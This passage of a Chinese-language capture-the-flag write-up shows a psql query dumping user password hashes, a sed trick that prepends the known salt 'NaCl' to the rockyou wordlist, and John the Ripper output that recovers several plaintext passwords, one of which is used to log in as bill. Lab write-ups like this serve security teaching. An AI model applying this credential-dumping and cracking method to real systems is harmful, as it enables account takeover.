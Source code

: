 ```shell
select username,password from users;
WARNING: terminal is not fully functional
-  (press RETURN)
   username    |             password
---------------+----------------------------------
 administrator | 15657792073e8a843d4f91fc403454e1
 bill          | 13edad4932da9dbb57d9cd15b66ed104
 michael       | bd3dad50e2d578ecba87d5fa15ca5f85
 john          | a7eed23a7be6fe0d765197b1027453fe
 dmytro        | 5d15340bded5b9395d5d14b9c21bc82b
(5 rows)

```

有点搞心态，psql 如何 dump 数据库呀，恼。我都是一句一句 select 出来的

![](https://i.328888.xyz/2023/04/05/i8UieC.png)

## hashcat crack + login in bill

获取的密码都是加盐 md5: `md5("NaCl" . $_POST['password'])`

**加盐正常字典是爆破不出来的，但是我们可以修改字典，给我们的字典也一起加盐呀.jpg**

通过 john 来爆破密码，需要在我们的爆破字典前面全部加上 **NaCl**

```shell
> cp /usr/share/wordlists/rockyou.txt rockyou.txt
> sed -i 's|^|NaCl|g' rockyou.txt
> cat hash.txt
administrator:15657792073e8a843d4f91fc403454e1
bill:13edad4932da9dbb57d9cd15b66ed104
michael:bd3dad50e2d578ecba87d5fa15ca5f85
john:a7eed23a7be6fe0d765197b1027453fe
dmytro:5d15340bded5b9395d5d14b9c21bc82b
> john hash.txt -w=rockyou.txt --format=Raw-MD5
Using default input encoding: UTF-8
Loaded 5 password hashes with no different salts (Raw-MD5 [MD5 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=8
Press 'q' or Ctrl-C to abort, almost any other key for status
NaCliluvhorsesandgym (bill)
NaClAaronthehottest (dmytro)
NaCl2applesplus2apples (michael)
3g 0:00:00:00 DONE (2023-04-05 14:36) 5.263g/s 25163Kp/s 25163Kc/s 105540KC/s NaCl 08 22 0128..NaCl*7¡Vamos!
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed.
```

尝试使用爆破出的密码 **iluvhorsesandgym** 登录 bill，获得 user.txt

![](https://i.328888.xyz/2023/04/05/i8U5XX.md.png)
